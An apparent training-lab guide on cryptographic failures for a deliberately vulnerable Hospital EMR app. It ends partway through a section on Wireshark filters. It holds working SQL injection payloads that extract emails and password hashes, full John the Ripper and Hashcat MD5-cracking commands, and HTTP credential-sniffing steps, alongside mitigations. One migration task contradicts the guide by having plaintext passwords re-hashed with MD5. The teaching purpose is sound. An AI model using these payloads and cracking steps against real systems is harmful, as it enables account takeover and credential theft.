






# Introduction — Cryptographic Failures

**Cryptographic Failures** occur when applications, systems, or teams fail to protect sensitive data properly using cryptography — either by not using it where needed, using it incorrectly, or mishandling keys and related secrets. These failures increase the risk that attackers can read, modify, or replay confidential information, impersonate users or services, and subvert trust in software and communications.

Cryptographic failures are broad. Below is a practical, structured overview of the major types, how they are exploited, and realistic attack scenarios that illustrate their impact.

---

## Major types of cryptographic failures

1. **Missing encryption (data at rest or in transit)**
    - Sensitive data stored or transmitted in plaintext (no encryption).
2. **Weak or obsolete algorithms**
    - Use of deprecated ciphers/hashes (MD5, SHA-1, DES, RC4) or small key sizes.
3. **Improper use of cryptographic primitives**
    - Wrong modes (e.g., ECB), reused IVs/nonces, deterministic encryption where randomness is required, or insecure padding.
4. **Poor key management**
    - Hardcoded keys, keys stored with application code, no rotation, or keys stored without protection (no vault/KMS).
5. **Broken randomness / weak entropy**
    - Predictable keys, tokens, or nonces due to poor randomness.
6. **Improper certificate/TLS usage**
    - Accepting self-signed certs, disabling certificate verification, allowing old TLS versions, or poor cipher suites.
7. **Signature / integrity verification failures**
    - Not verifying signatures on updates, failing to check MACs, or using insecure HMAC/key derivation.
8. **Insecure key exchange and storage**
    - Exposing private keys, shipping backups with keys, or using the same key for multiple purposes.
9. **Supply-chain and CI/CD weaknesses**
    - Signing or deployment pipelines that can be tampered with, allowing malicious code or corrupted artifacts.

---

## How attackers exploit cryptographic failures

- **Eavesdropping / Man-in-the-Middle (MITM)**  
  When communications are not protected or TLS is misconfigured, an attacker can intercept and read or modify traffic. This enables credential theft, session hijacking, and data tampering.

- **Offline cracking of weak hashes**  
  If passwords or secrets are stored using weak hashing (e.g., unsalted MD5), an attacker who obtains the hashes can perform offline attacks (dictionary/rainbow/rule attacks) to recover plaintext credentials.

- **Using leaked or hardcoded keys**  
  Keys embedded in code or configuration can be found in repositories or backups. An attacker with a key can decrypt stored data, call privileged APIs, or impersonate services.

- **Replay & forgery**  
  If tokens or messages lack freshness protections (nonces, timestamps) or use weak MACs, attackers can replay or forge requests to perform unauthorized actions.

- **Tampering with software or updates**  
  If integrity checks are absent or improperly implemented, an attacker can insert malicious code into builds or updates and distribute it to users.

---

## Realistic scenarios (exploitation patterns)

### Scenario A — Plaintext password database leak
**What happens:** A database backup is leaked or stolen. Passwords were stored as plaintext.  
**Attacker steps:** Access leaked backup → read email/password pairs → log in to accounts, pivot to other systems using reused credentials.  
**Impact:** Immediate account takeover, large-scale data access, identity theft, financial fraud.  
**High-level mitigation:** Always store only salted, adaptive hashes (e.g., Argon2/bcrypt/ scrypt); minimize sensitive storage; encrypt backups and restrict access.

---

### Scenario B — Weak hashing (MD5 / unsalted SHA-1)
**What happens:** Passwords are stored as unsalted MD5 or SHA-1 hashes.  
**Attacker steps:** Steal hash dump → run offline cracking using common wordlists and GPU-accelerated cracking tools → recover many passwords quickly.  
**Impact:** Compromised accounts, credential stuffing on other services.  
**High-level mitigation:** Use modern, slow, salted password hashing algorithms (Argon2 / bcrypt / scrypt) and enforce strong password policies.

---

### Scenario C — Unsecured transmission (HTTP / broken TLS)
**What happens:** Login and API endpoints use HTTP or TLS is misconfigured (client accepts invalid certs).  
**Attacker steps:** Position on the same network (public Wi-Fi, ISP, compromised router) → capture HTTP traffic or perform MITM to intercept credentials and session tokens → use tokens to impersonate users.  
**Impact:** Credential theft, session hijack, data interception and modification.  
**High-level mitigation:** Enforce HTTPS everywhere (HSTS), use TLS 1.2+ with strong cipher suites, verify certificates, and avoid disabling verification in clients.

---

### Scenario D — Hardcoded keys and secrets
**What happens:** API keys, encryption keys, or database credentials are hardcoded in the application or source repo.  
**Attacker steps:** Search code repository, container images, or backups → extract keys → call privileged APIs, read encrypted data, or manipulate systems.  
**Impact:** Unauthorized access to third-party services, data decryption, fraudulent transactions.  
**High-level mitigation:** Use secret management (vaults, cloud KMS), environment injection at runtime, rotate keys, and audit secret access.

---

### Scenario E — Predictable tokens and weak randomness
**What happens:** Session tokens, CSRF tokens, or API keys are generated with weak PRNGs or static seeds.  
**Attacker steps:** Predict future tokens or brute-force a small token space → authenticate as other users, perform CSRF, or access APIs.  
**Impact:** Account takeover, automated exploitation at scale.  
**High-level mitigation:** Use cryptographically secure randomness (OS RNG), long token lengths, and rate-limiting on token verification.

---

### Scenario F — Integrity/Update attacks
**What happens:** Software updates or package artifacts are not signed or signature checks are skipped.  
**Attacker steps:** Compromise CI/CD or mirror repositories → inject malicious build → push to users → malware spreads with elevated privileges.  
**Impact:** Supply-chain compromise, wide-scale infection.  
**High-level mitigation:** Sign releases and artifacts, verify signatures in clients, secure CI/CD pipelines, and restrict build access.

---

## Practical detection & mitigation guidance (high level)

- **Detect**
    - Audit code and configs for plaintext secrets and hardcoded keys.
    - Scan repositories and images for secrets (automated scanning).
    - Monitor network traffic for unencrypted sensitive endpoints.
    - Use logs and alerting for unusual key usage or decryption attempts.

- **Mitigate**
    - Encrypt sensitive data at rest and in transit.
    - Use modern algorithms and avoid rolling your own crypto.
    - Centralize secrets in a vault/KMS, enforce least privilege and rotation.
    - Salt and use adaptive password hashing (Argon2 or bcrypt).
    - Enforce TLS correctly and verify certificates; use HSTS and strong ciphers.
    - Secure CI/CD and sign artifacts; validate signatures before deployment.

---

## Key takeaways

- Cryptography is powerful but easy to misuse — **the most common failures come from configuration and key management**, not from lack of algorithms.
- Small mistakes (plaintext storage, MD5, hardcoded keys, accepting any certificate) often lead to large, immediate compromises.
- Defenses are layered: encrypt, manage keys securely, validate integrity, and monitor for misuse.
- Threat modeling and regular audits (including automated scanning of repos and images) are essential to find and fix cryptographic failures before attackers do.

---


## Setup & app used for this lab 
The lab will use the pre-developed Hospital EMR application available at: [setup section](./setup.md)

> Please follow the repository's **Setup** instructions (see the repository README) to prepare the lab environment before starting the exercises.

> 🔴 **IMPORTANT — RED TEAM RULE**
>
> **You do NOT have access to the application source code for this exercise.**  
> You are **not allowed** to use any information from the codebase (for example: table names, column names, query fragments, or embedded secrets) when crafting exploits or collecting evidence.
>
> All schema details and field names **must be discovered by you** through active testing (probing, injection, enumeration, boolean/time-based techniques, etc.). This constraint is intentional — the exercise requires you to perform discovery and inference as part of the learning objectives.
>
> **Failure to follow this rule may invalidate your results.**


## Phase 1 — Plaintext Password Storage
**Objective:** Prove that plaintext (or weakly stored) passwords can be discovered and abused by exploiting a SQL injection vulnerability in a public search endpoint. Show how an attacker can enumerate the users table and extract `email` and `password_hash` (which in this lab contains plaintext/weak hashes).

**Why this matters:** If an attacker can read plaintext credentials from the database, they can immediately log in as any user, escalate privileges, and pivot to other systems (especially when users reuse passwords). The aim is to make the risk concrete and visible.

---

### Target entry point
- **Public page:** `search_doctor.php` — a public, unauthenticated search for doctors (reads from the `users` table).
- This page is intentionally simple and performs a `LIKE '%query%'` search against `users.full_name` using direct string interpolation (vulnerable to SQLi in the lab).

---


### Attack workflow (step-by-step)

1. **Recon the public search**
    - Open `search_doctor.php` in your browser and try simple searches (e.g., `Smith`, `Dr`).
    - Observe how search results are displayed (full name, email, phone).

2. **Test for SQL injection (manual)**
    - In the search box submit special characters to test input handling, e.g.:  
      `a' OR '1'='1`  
      or `%' OR '1'='1`
    - Observe if the page returns more results than expected (sign of SQLi), errors, or DB messages.

3. **Confirm injectable parameter**
    - If the page returns an error or universal results, you have high confidence the `q` parameter is interpolated into SQL.
    - Use benign tests first (e.g., search for single quote `'` to trigger a DB error message) — capture any server error output in the page or in the proxy.

4. **Enumerate the schema / table names (blind / error-based)**
    - If error messages are present, attempt to craft payloads to reveal column names or test boolean conditions.
    - Example manual probe (error-based/information-disclosure):  
      `%' UNION SELECT 1, table_name, 3 FROM information_schema.tables WHERE table_schema=database() -- `  
      (Adjust payloads per DB type and lab guidance — instructor may restrict automated union usage.)

    - If errors are suppressed, use **boolean-based** tests to detect existence of columns (e.g., `q=Smith' AND (SELECT 1 FROM users WHERE 1=1) -- `).

5. **Extract user data**
    - Once you confirm SQL injection, craft queries to extract `email` and `password_hash` from the `users` table. Two approaches:
        - **Union-based (if allowed and possible):** Use `UNION SELECT` to append rows containing `email` and `password_hash` into the search results displayed.
        - **Blind/Boolean extraction (if no output-based injection):** Use conditional tests to extract characters of target values bit-by-bit. This is slower but works without visible result injection.
    - Example conceptual union payload:  
      `%' UNION SELECT NULL, CONCAT(email, 0x3a, password_hash), NULL FROM users LIMIT 10 -- `  
      (Hex `0x3a` is `:` to separate fields — adjust columns/types to match the page's SELECT structure.)

6. **Demonstrate account access**
    - Using one discovered email/password pair, attempt to log in via the app's login page.
    - Capture the successful login (screenshot of logged-in dashboard or session cookie) as proof of impact.

---

### Mitigation by Hashing

Password hashing is the process of converting a plain password into a fixed-length string using a one-way function. Modern adaptive hashing algorithms like Argon2 or bcrypt are designed to be slow and resistant to brute-force attacks, ensuring that even if the database is compromised, the original passwords cannot be easily recovered.

> **Educational note about MD5:** For the purposes of this lab you will **temporarily** work with MD5-formatted entries to learn the differences between weak and strong hashing and to practice migration techniques. **MD5 is cryptographically broken and must never be used in real systems.** In the lab we use it only as a teaching artifact: you will detect MD5 entries, treat them as legacy accounts, and design a safe migration (force reset or re-authentication), while migrating any plaintext entries to a modern adaptive hash.


**Tasks — short version**
- **Backup:** Export a full DB dump before any change.
- **Implement migration script:** Write a PHP CLI tool that connects to the DB, re-hashes plaintext entries with md5, and records legacy-hash accounts for manual handling.
- **Test :** Run the script , verify logins for migrated accounts, adjust as needed.
- **Code update plan:** Ensure future password creation/verification uses hashed version.

---

> **Note (lab convenience): Use simple test passwords**
>
> For this hands-on lab we recommend using **easy, short test passwords** (e.g. `pass123`, `welcome1`) for the synthetic user accounts you create or are provided. This speeds up extraction and cracking demonstrations within the limited class time.
>
> **Important constraints**
> - Use these weak passwords **only** for lab accounts in the isolated environment — **never** use real or reused credentials.
> - Keep the test set small (a few accounts) to avoid long cracking jobs and to respect shared lab resources.
> - After the exercise, replace or re-hash these test passwords with secure values and follow the migration plan discussed in Phase 1.
>
> This shortcut is strictly for teaching efficiency and does not reflect secure practice outside the lab.


---


## Phase 2 — Crack legacy MD5 hashes

### 1) Extracting the hashed values (use the same SQLi entry point)
Use the same confirmed SQL injection vector (the public search endpoint) to retrieve the `password_hash` column values from the `users` table. The objective is to obtain the hashed strings (MD5-format) for a small number of accounts (e.g., 5–10) for classroom demonstration.

---

### 2) Cracking the MD5 hashes (tools & approach)

**Tools commonly used in labs:**
- **John the Ripper**
- **Hashcat** (recommended on Kali Linux)
- **Online cracking services**

---

#### John the Ripper — Detailed Workflow (MD5 hashes)

---

**0. Preparations — file formats & placement**

**A. Hash file formats**
- If you have just hashes (one per line), put them in `hashes.txt`:
```bash
d41d8cd98f00b204e9800998ecf8427e
5f4dcc3b5aa765d61d8327deb882cf99 
```
- If you have identifiers (email or username) and a hash, you can store `user:hash` lines:
```bach
alice@example.local:5f4dcc3b5aa765d61d8327deb882cf99 
```

John will preserve the left-side label and show it after cracking.

**B. Common tool & wordlist locations**
- `john` binary: `/usr/sbin/john` or available in PATH as `john`.
- Common wordlist: `/usr/share/wordlists/rockyou.txt` (gzip-compressed on Kali; decompress first if needed).

---

**1. Quick check: identify hash format (recommended):**

John needs the correct format specifier for best performance. For **unsalted MD5 hex**, the format is `raw-md5`. To tell John explicitly (recommended), we'll use `--format=raw-md5`.

You can run a small test to confirm your hashes file is readable:
```bash
wc -l hashes.txt              # count lines
head -n 5 hashes.txt          # preview
```
**2. Basic dictionary attack (fast, first attempt):**

Use a wordlist (rockyou) with default rules to try common passwords first:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt --rules --format=raw-md5 hashes.txt
```

Explanation:
* --wordlist=... : use the specified wordlist (dictionary)
* --rules : apply John’s default rules to mutate dictionary words (adds common variations).
* --format=raw-md5 : explicitly tell John we’re cracking raw unsalted MD5.
* hashes.txt : file containing hashes (or user:hash lines).

Notes:
* This is usually the quickest way to crack weak passwords (common words, variations).
* Output is written to screen and to John’s pot file (cache of cracked passwords).

**3. See results (show cracked passwords):**

After or during a run, you can list cracked items:
```bash
john --show --format=raw-md5 hashes.txt
```
Explanation:
* --show displays any cracked passwords (username:password mapping if user:hash format used).
* Useful to export evidence of cracked credentials.

**4. Resume, status, and session management:**

If you start a long session, use --session to name it, so you can stop/resume later:

```bash
john --session=phase2 --wordlist=/usr/share/wordlists/rockyou.txt --rules --format=raw-md5 hashes.txt
```

- Pause with Ctrl+C. Resume with:
```bash
john --restore=phase2 
```

- Check status::
```bash
john --status=phase2
```

**5. Rule-based / single mode (try common transformations & username-based guesses):**

John’s --rules (with a wordlist) is powerful. Another useful mode is --single, which derives candidates from the username/other fields in the file (good if hashes file includes usernames):

```bahs
john --single --format=raw-md5 hashes.txt
```
- --single uses the john.pot contents and user fields to create guesses (useful when users use variants of their names).

**6. Mask attacks (targeted brute force for structured passwords):**

If you suspect passwords follow a pattern (e.g., CapitalLetter + lower* + 2 digits), use --mask:

```bash
john --mask='?u?l?l?l?d?d' --format=raw-md5 hashes.txt
```
Mask syntax examples:

* ?l = lower, ?u = upper, ?d = digit, ?s = special.
* ?u?l?l?l?d?d tries one upper + three lower + two digits (e.g., John123).

When to use:
- Useful when dictionary attacks fail and you have an idea of structure (from policy or user naming patterns).

**7. Incremental (full brute-force) — use with caution:**

Incremental mode tries every possible candidate up to limits — it's very slow and resource-heavy. Use only on small character sets or very short lengths, or if lab resources allow.

```bash
john --incremental --format=raw-md5 hashes.txt
```
- --incremental uses John’s incremental mode, which is the equivalent of brute-force; it can take extremely long for realistic passwords.

**8. Using external rulesets or custom wordlists:**

You can supply custom rule files or custom wordlists:
```bash
john --wordlist=/home/lab/wordlists/custom.txt --rules=WordlistRules --format=raw-md5 hashes.txt
```
* Custom rules: define in john.conf or pass built-in rule names (if available).
* Practical approach: combine a curated company/user-specific list with rockyou.


**9. Clean up & evidence collection:**

* Use john --show to export the cracked mappings. Save this output as evidence.
* Preserve the John pot file (usually ~/.john/john.pot) for reproducibility — it contains cracked pairs.
* Log the exact command lines, wordlist names, and rule sets used, and capture timestamps to support your report.

**10. Practical tips & ethics reminders:**

* Start with dictionary + rules — many weak passwords crack quickly.
* Keep your cracking scope small (few hashes) to avoid overloading lab resources.
* Always document the exact commands and wordlists used.


---


#### Typical Hashcat Workflow

**1. Prepare your hash file and mapping:**
- If you extracted plain hashes only** (one hash per line):
    - Create `hashes.txt` with exactly one hash per line:
      ```
      5f4dcc3b5aa765d61d8327deb882cf99
      d41d8cd98f00b204e9800998ecf8427e
      ...
      ```
    - Also keep a separate CSV (`mapping.csv`) that maps identifiers (id or email) to the hash:
      ```
      id,email,hash
      12,alice@example.local,5f4dcc3b5aa765d61d8327deb882cf99
      17,bob@example.local,d41d8cd98f00b204e9800998ecf8427e
      ```
    - After cracking, you will join cracked outputs back to `mapping.csv` to attribute passwords to accounts.

- If you extracted rows as `email:hash` (or `id:hash`):
    - You can supply that file directly to Hashcat and use `--username` so Hashcat preserves the left-side identifier when outputting cracked results:
      ```
      alice@example.local:5f4dcc3b5aa765d61d8327deb882cf99
      bob@example.local:d41d8cd98f00b204e9800998ecf8427e
      ```
    - With `--username`, Hashcat understands the left token as a label and outputs `label:password` directly when cracked. This helps avoid manual join steps.

> **Rule of thumb:** Keep the dataset small for demos (5–20 hashes). Large cracking jobs require dedicated GPU resources and time.

---

**2. Choose an attack mode (high level):**
- **Dictionary attack (fast wins):** Try a curated wordlist first (e.g., `rockyou.txt`, common passwords). Good for many weak passwords.
- **Dictionary + rules (rule-based):** Apply rules to mutate dictionary words (`-r rules/my-rules.rule`) to catch common variants (`password123`, `P@ssw0rd`, etc.).
- **Combinator / Hybrid attacks:** Combine two wordlists or wordlist + mask for passphrases (`-a 1` or `-a 6/-a 7`).
- **Mask attack (brute-force with pattern):** Use mask mode (`-a 3`) when you know structure (e.g., `?l?l?l?l?d?d` for 4 letters + 2 digits).
- **Rule of escalation:** Start simple (dictionary), then rules/hybrid, then masks.

---

**3. Example Hashcat commands:**

- Basic dictionary attack (unsalted MD5, mode 0):
```bash
# -m 0 : MD5, -a 0 : dictionary attack
hashcat -m 0 -a 0 /lab/path/hashes.txt /lab/wordlists/rockyou.txt --status --session lab-md5-01
```

- Dictionary + rules (use a rule file to mutate words):

```bash
hashcat -m 0 -a 0 /lab/path/hashes.txt /lab/wordlists/rockyou.txt -r /lab/rules/best64.rule --status --session lab-md5-02
```

- Mask attack (example: 8-character lowercase + digits pattern):

```bash
# -a 3 : mask attack, ?l = lower letter, ?d = digit
hashcat -m 0 -a 3 /lab/path/hashes.txt '?l?l?l?l?l?l?d?d' --status --session lab-md5-mask
```
- Using a username:hash file and producing an output file of cracked pairs:

```bash
# --username tells hashcat the file contains label:hash pairs
hashcat -m 0 -a 0 /lab/path/users_hashes.txt /lab/wordlists/rockyou.txt --username -o /lab/output/cracked.txt --status --session lab-md5-username
```
> cracked.txt will contain label:password for each cracked entry when run with --username and -o.

- Show cracked results from a previous run (useful to reprint results from potfile):

```bash
hashcat -m 0 --show /lab/path/hashes.txt
# or with username-format file
hashcat -m 0 --show /lab/path/users_hashes.txt --username
```
---

4. Useful Hashcat options and workflow tips:

* --status : show periodic status during a run.
* --session \<name\> : name the session so you can resume later with --restore.
* --restore : resume a previous session.
* -r \<rulefile\> : apply rules to dictionary words.
* -o \<outfile\> : write cracked results to outfile.
* --username : input file contains username:hash or email:hash pairs; preserves mapping.
* --potfile-path \<path\> : control where Hashcat stores the potfile (cracked entries cache).
* --show : list currently cracked hashes from the potfile (useful for mapping after run).
* --force : forces run even with warnings (use cautiously in lab).

5. Performance & resource notes:

* GPU vs CPU: Hashcat is GPU-optimized. Cracking MD5 on CPU is slow. Use lab GPUs or accept longer runtimes.
* Workload: MD5 is fast — even modest GPUs can test billions of MD5 hashes per second. That’s why MD5 is unsuitable for passwords.
* Demo constraints: For teaching, limit to a few hashes and small wordlists to keep runtimes short and predictable.


6. Handling salted or non-standard formats

* If hashes are salted or combined (e.g., md5(password + salt)), you must:
  * Identify the format (how the salt is concatenated or stored).
  * Use the correct Hashcat mode for that construct or prepare an input format Hashcat expects (sometimes using :salt fields or mode-specific formats).
* If in doubt, treat the extraction as unknown format and bring findings to instructor — do not guess risky modes on shared infra.


7. Post-crack mapping and reporting (preserve attribution)

* If you used username:hash and --username, your output file (with -o) will already show username:password pairs.
* If you used a plain hashes.txt file, do:
  * Run hashcat --show hashes.txt to list hash:password (or just password depending on options).
  * Join the hash:password output back to your mapping.csv (e.g., by hash) to produce id,email,hash,cracked_password.
* Keep a CSV of results for reporting, e.g.:

```bash
id,email,hash,cracked_password,method,wordlist
12,alice@example.local,5f4dcc3b5aa765d61d8327deb882cf99,password123,rockyou,dict
```
* Record exact commands and parameters used (wordlist name, rules, mask pattern) as part of your evidence.

**8. GPU acceleration (John vs Hashcat):**

* John the Ripper Jumbo can use OpenCL to accelerate cracking on GPUs (if installed). The command syntax is the same, but ensure you have the Jumbo build and OpenCL drivers.
* If GPU acceleration is available and configured, John will automatically use OpenCL backends for supported formats. You can check formats with john --list=formats | grep md5.
* If GPU is not available, consider using Hashcat for GPU-accelerated cracking — Hashcat often performs faster for MD5 on GPUs.


### 4) Mitigation — replace MD5 with modern hashing and enforce stronger passwords

**A. Use modern, adaptive password hashing**
- Adopt PHP’s `password_hash()` / `password_verify()` API:
    - Preferred: `PASSWORD_ARGON2ID` (if PHP supports it).
    - Fallback: `PASSWORD_BCRYPT`.
- Parameters: choose secure work factors (memory/time/cost) appropriate to your infrastructure; document chosen parameters.
- On login, call `password_needs_rehash()` and rehash if parameters changed.

**B. Migration strategy for legacy MD5 accounts**
- **Do not** simply re-hash MD5 values into a stronger hash (that preserves the weak root).
- Options:
    - Force a password reset: mark legacy accounts and require a reset via email token.
    - Issue a secure temporary password and require change on first login.
    - If possible, use an out-of-band re-authentication (e.g., helpdesk verification) for high-value accounts.

**C. Enforce secure password creation (frontend + backend)**
- **Frontend:** show strength meter, require minimum entropy rules (length, classes of characters), but treat frontend checks as UX aids only (they can be bypassed).
- **Backend (mandatory):** validate password strength server-side (minimum length, blacklist common passwords, deny known weak patterns, check against compromise lists if available).
- Implement password **blacklist / banned-password** checks (e.g., common password lists like RockYou).
- Use rate-limiting and progressive delays on failed login attempts.

**D. Additional defenses**
- **Multi-Factor Authentication (MFA):** strongly recommended for all privileged roles.
- **Account lockout / throttling:** limit brute force and credential stuffing.
- **Password reuse prevention:** prevent users from re-using recent passwords.
- **Secure storage & rotation:** ensure backups are encrypted and that any secrets used in hashing (e.g., optional pepper) are stored and rotated in a secure vault/KMS.
- **Monitoring & alerting:** log suspicious authentication patterns and alert on abnormal cracking-related access.

---


## Phase 3  — Unsecured Transmission: Capture credentials with Wireshark

Now we've done the right thing and switched to a strong, modern password-hashing method — the database no longer contains plaintext passwords. But the story isn't over: even the best hashes can't stop a secret that travels across the network in the clear. If the login form still sends credentials over plain HTTP, an on-network eavesdropper can sniff the request before the hashing ever matters, capture the submitted username and password, and then use those credentials elsewhere.

**Goal :** demonstrate that when the application uses plain HTTP (no TLS), an attacker on the same network can capture submitted usernames and passwords by sniffing traffic. You will use **Wireshark** (or tshark/tcpdump) to capture the login POST and extract credentials from the HTTP request body.

---

### Prerequisites (lab)
- App run over **HTTP** (no TLS) on lab network.
- A machine on the same network segment as the victim browser (or the victim browser itself).
- Tools installed: **Wireshark** (GUI) or **tshark / tcpdump** (CLI).
- A small number of test accounts with easy passwords (lab convenience).

---


### Detailed procedure (Wireshark GUI)

#### A — Start capture
1. Open **Wireshark** and select the network interface used by the victim (e.g., `eth0`, `enp3s0`, `wlan0`).
2. Click **Start** to begin capturing packets.
    - Optional: if interface selection is unclear, run `ip addr` / `ifconfig` on the victim to confirm IP, then capture on the host where that interface resides.




#### B — Exercise the login in the browser
1. In the victim browser, open the app login page (`http://<lab-host>/login.php`).
2. Submit the test username and password you will capture.

#### C — Stop capture
- Stop the Wireshark capture as soon as the login completes to minimize noise.

#### D — Filter for HTTP POST requests
In Wireshark’s Display Filter bar you can narrow captures to the login POST by protocol, ports, and IP addresses. Useful filters (combine with &&, ||, and parentheses):

- All HTTP POST requests
```bash
http.request.method == "POST"
```

- HTTP POSTs to a specific URI (if known)
```bash
http.request.method == "POST" && http.request.uri contains "login"
```

- HTTP POSTs to a specific host
```bash
http.request.method == "POST" && http.host == "app.lab.local"
```

- Restrict by TCP port (common HTTP port 80)
```bash
http.request.method == "POST" && tcp.port == 80
```

- or more explicitly:
```bash
http.request.method == "POST" && (tcp.dstport == 80 || tcp.srcport == 80)
```

- Filter by source IP (victim)
```bash
http.request.method == "POST" && ip.src == 10.0.0.15
```

- Filter by destination IP (server)
```bash
http.request.method == "POST" && ip.dst == 10.0.0.20
```

- Combine source & destination
```bash
